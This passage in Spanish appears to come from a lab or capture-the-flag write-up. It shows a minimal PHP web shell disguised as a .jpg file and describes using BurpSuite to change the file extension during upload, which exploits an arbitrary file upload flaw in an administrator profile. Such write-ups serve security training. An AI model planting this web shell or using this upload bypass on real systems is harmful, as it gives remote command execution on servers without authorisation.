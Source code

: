 Para poder abusar de esta vulnerabilidad, el objetivo será subir un archivo con extensión de imágen como `.jpg` y modificar antes de que se envíe en el servidor por la extensión `PHP`.&#x20;

Nuestro archivo `gzzcoo.jpg` contiene el siguiente contenido `PHP` que se trata de una `web shell`.

```bash
❯ cat gzzcoo.jpg
<?php
  system($_GET['cmd']);
?>
```

Accederemos a las propiedades del usuario `Administrator` y subiremos nuestro archivo malicioso, antes de darle a `Submit`, deberemos de interceptar la solicitud a través de `BurpSuite`.

<figure><img src="../../.gitbook/assets/5412_vmware_yfgDrNJ2Bq.png" alt=""><figcaption></figcaption></figure>

Al interceptar la solicitud, deberemos modificar la extensión del archivo para indicarle que sea `PHP` y así poder realizar el `Arbitrary File Upload`. Una vez lo modifiquemos, le daremos a `Forward`.
